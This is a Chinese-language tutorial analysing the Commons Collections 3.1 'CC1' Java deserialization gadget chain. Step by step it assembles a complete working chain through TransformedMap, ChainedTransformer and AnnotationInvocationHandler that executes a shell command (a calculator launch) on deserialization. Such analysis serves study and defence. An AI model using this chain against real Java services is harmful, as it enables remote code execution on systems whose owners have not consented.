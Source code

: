 # CommonsCollections1分析



## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

- AnnotationInvocationHandler调试与Find问题

  https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/8dd0918b97a4 下载对应版本的zip，在jd8u65文件夹下存在一个src.zip，解压后将src/share/classes/sun文件夹放在src下。

<img src="./img/image-20240327014808365.png" alt="image-20240327014808365" style="zoom:50%;" />

- 调用Find usages找不到，可以修改配置如下：

<img src="./img/image-20240327014956561.png" alt="image-20240327014956561" style="zoom:35%;" />



## 2.调试分析

常见的命令调用方式：

```java
Runtime r = Runtime.getRuntime();
r.exec("open -a calculator");
```

当我们利用InvokerTransformer时，它的transform方法如下：

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();//获取input的class对象
        Method method = cls.getMethod(iMethodName, iParamTypes);//通过class对象获取方法
        return method.invoke(input, iArgs); //方法调用还是通过input
    }
      ....
}
```

同样可以构造出执行calc的代码，如下：

```java
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}).transform(r);
```

根据java反序列化的调用方式，需要找到一处调用transform方法的位置。

在CC1链中利用的是`TransformedMap#checksetValue`方法，如下：

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

在`TransformedMap`中是实现了`AbstractInputCheckedMapDecorator`接口，该接口中存在`setValue`方法调用到`checkSetValue`方法,代码如下：

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

通过`TransformedMap`可以用来装饰另一个`Map`以变换添加的对象，也就是说我们可以将命令执行的代码改写为如下：

```java
Runtime r = Runtime.getRuntime();

InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);

for (Map.Entry o : decorate.entrySet()) {
    o.setValue(r);
}
```

那么接下来需要找到一处调用`setValue`方法的位置，这里发现`AnnotationInvocationHandler#readObject`中存在`memberValue.setValue`的调用形式且`memberValue`值可控，使用它继续构造链子,代码如下：

```java
  Runtime r = Runtime.getRuntime();

  InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put("name","123");
  Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);



  Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
  annotationConstructor.setAccessible(true);
  Object o = annotationConstructor.newInstance(Bean.class, decorate);
```

但是该构造很明显存在问题：1.Rumtime不可序列化的. 2.`memberValue.setValue(xxxx)`其中xxx不可控.

为了解决这两个问题，需要利用到其它类，可以使用`ChainedTransformer`它的代码如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

它实现的功能：依次调用每个Transformer.transform，将结果传递到下一个Transformer中，利用该功能改写一下命令执行的部分,代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(r);
```

通过以上代码，能够通过`chainedTransformer.transform(r);`进行利用链的调用，但是前面提到的Runtime对象是不能够序列化的，所以还得换种方式。

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(Runtime.class);
```

通过这样的形式，解决了Runtime不可序列化的问题，还有一个问题就是`setValue(xxxx)`其中xxxx是不可控的，所以像上面的调用，无法直接传入`Runtime.class`,这个点需要利用到`ConstantTransformer`,它的transform代码如下：

```java
public Object transform(Object input) {
    return iConstant;
}
```

调用之后原样返回，这样解决setValue值不可控的问题,成功解决了这两个问题，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

chainedTransformer.transform("123");
```

结合之前提到的，构造出完整的链子：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, chainedTransformer);



Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
annotationConstructor.setAccessible(true);
Object o = annotationConstructor.newInstance(Bean.class, decorate);

unSerialize(serialize(o));
```



## 3.反序列化调用图

![image-20240327132834298](./img/image-20240327132834298.png)
